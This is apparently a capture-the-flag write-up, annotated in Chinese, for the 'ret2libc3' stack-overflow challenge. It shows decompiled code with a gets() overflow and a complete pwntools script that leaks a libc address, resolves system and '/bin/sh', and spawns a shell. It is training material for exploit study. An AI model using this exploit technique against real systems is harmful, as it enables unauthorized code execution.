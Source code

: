

## IDA Analysis

- main函数如下，存在高危函数gets，可供栈溢出

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets(s); // 溢出点
  return 0;
}
```



## Exploit

- 脚本逻辑详细版见注释，以下为exploit思路：
  1. 控制程序执行puts，输出`__libc_start_main`的got表地址，并返回到main
  2. 根据`__libc_start_main`的got表地址判断`libc`版本，以此计算`system, str_bin_sh`的实际地址
  3. 第二次执行main，控制程序`ret`到`system`，参数`str_bin_sh`的实际地址。即执行`system("/bin/sh")` getshell

```python
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher # 用于判断libc版本
context.log_level = "DEBUG"
sh = process("./ret2libc3")

ret2libc3 = ELF("./ret2libc3")
# pwnlib.elf.elf.ELF.plt: dotdict of name to address for all Procedure Linkate Table (PLT) entries
puts_plt = ret2libc3.plt["puts"] # puts 函数的 plt 表地址
# pwnlib.elf.elf.ELF.got: dotdict of name to address for all Global Offset Table (GOT) entries
libc_start_main_got = ret2libc3.got["__libc_start_main"] # __libc_start_main 函数的 got 表地址 # 0x804a024
main = ret2libc3.symbols["main"] # main函数的地址

print("leak libc_start_main_got addr and ret to main", str(hex(puts_plt)), str(hex(main)), str(hex(libc_start_main_got)))
# puts_plt, main, libc_start_main_got: 0x8048460 0x8048618 0x804a024
payload = flat(['A' * (108+4), puts_plt, main, libc_start_main_got]) # main函数RA与字符串s之间的偏移量为108+4，分析方法其他ROP相同
# 覆盖main函数返回地址为puts_plt，令puts_plt的RA为main，参数为libc_start_main_got # puts会输出 __libc_start_main 的got表地址
print("payload: ", payload.hex())
sh.sendlineafter("Can you find it !?", payload) # 收到 "Can you find it !?" 后发送payload

libc_start_main_addr = u32(sh.recv()[0:4]) # 接收前面payload输出的 libc_start_main_got
print("got libc_start_main_addr:", str(hex(libc_start_main_addr))) # got libc_start_main_addr: 0xf7de8d40
libc = LibcSearcher("__libc_start_main", libc_start_main_addr) # 用LibcSearcher库查找libc版本(可能不止一个)
libcbase = libc_start_main_addr - libc.dump("__libc_start_main") # 计算加载的libc的基址
print("loaded libc base addr:", str(hex(libcbase))) # loaded libc base addr: 0xf7dca000
system_addr = libcbase + libc.dump("system") # 计算 system 函数实际所在的地址
binsh_addr = libcbase + libc.dump("str_bin_sh") # 计算 str_bin_sh 字符串实际所在的地址
# 第二个payload，用于getshell
payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr]) # 注意这里RA与字符串s之间的偏移量从前面的112变为104
sh.sendline(payload) # 覆盖RA为system_addr，执行system("/bin/sh")，system的RA为0xdeadbeef

sh.interactive()
```